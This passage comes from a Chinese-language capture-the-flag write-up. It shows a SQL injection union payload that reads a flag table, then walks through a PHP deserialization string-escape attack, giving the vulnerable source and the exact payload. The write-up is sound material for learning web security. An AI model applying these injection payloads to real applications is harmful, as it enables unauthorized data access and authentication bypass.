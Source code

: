 构造出如下载荷读取 flag。

```sqlite
chall.id=1/**/union/**/select/**/flag,2,3,4,5,6/**/from/**/therealflags
```

```flag
BSNoida{4_v3ry_w4rm_w31c0m3_2_bs1d35_n01d4_fr0m_4n_1nt3nd3d_s01ut10nxD}
```

#### wowooo

> it's really interesting
> Note : Bruteforce is not required.

根据页面源码注释的提示提交 GET 参数 `debug` 即可得到如下代码。

```php+HTML
<?php
include 'flag.php';
function filter($string){
    $filter = '/flag/i';
    return preg_replace($filter,'flagcc',$string);
}
$username=$_GET['name'];
$pass="V13tN4m_number_one";
$pass="Fl4g_in_V13tN4m";
$ser='a:2:{i:0;s:'.strlen($username).":\"$username\";i:1;s:".strlen($pass).":\"$pass\";}";

$authen = unserialize(filter($ser));

if($authen[1]==="V13tN4m_number_one "){
    echo $flag;
}
if (!isset($_GET['debug'])) {
    echo("PLSSS DONT HACK ME!!!!!!").PHP_EOL;
} else {
    highlight_file( __FILE__);
}
?>
<!-- debug -->
```

很明显是少变多的反序列化逃逸，逃逸点在变量 username 处由四个字符变为六个字符。先构造出要逃逸达成的部分。

```plain text
";i:1;s:19:"V13tN4m_number_one ";}
```

一共 34 个字符，因此此时需要替换 17 次才能完成逃逸，构造出如下载荷。

```plain text
flagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflag";i:1;s:19:"V13tN4m_number_one ";}
```

以 GET 参数 name 发起请求即可得到 flag。
